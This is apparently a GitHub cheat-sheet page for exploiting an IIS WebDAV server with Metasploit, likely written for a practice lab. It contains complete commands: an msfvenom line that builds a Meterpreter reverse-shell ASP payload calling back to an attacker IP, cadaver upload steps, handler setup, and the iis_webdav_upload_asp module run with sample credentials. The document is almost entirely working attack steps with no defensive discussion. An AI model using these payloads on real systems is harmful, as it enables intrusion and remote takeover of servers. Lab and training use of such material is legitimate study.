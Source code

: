 # Exploiting WEBDAV using Metasploit

#### METHOD 1: USING CADAVER 
1. Create a Meterpreter reverse shell ASP Payload
```sh 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.12.2 LPORT=1234 -f asp > metshell.asp
```

2. Upload the the reverse shell ASP file to the `/webdav` directory
```sh
cadaver http://10.5.26.240/webdav/
put metshell.asp

delete metshell.asp # Delete the File after Exploitation
```
 
 3. Set up the Multi Handler to receive the reverse shell connection.
```
use multi/handler
set LHOST 10.10.12.2
set lport 1234
set payload windows/meterpreter/reverse_tcp
run
```

#### METHOD 2: USING METASPLOIT MODULE

```
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS 10.5.26.240
set httpusername bob
set httppassword password_123321
set PAtH /webdav/expshell.asp
run
```

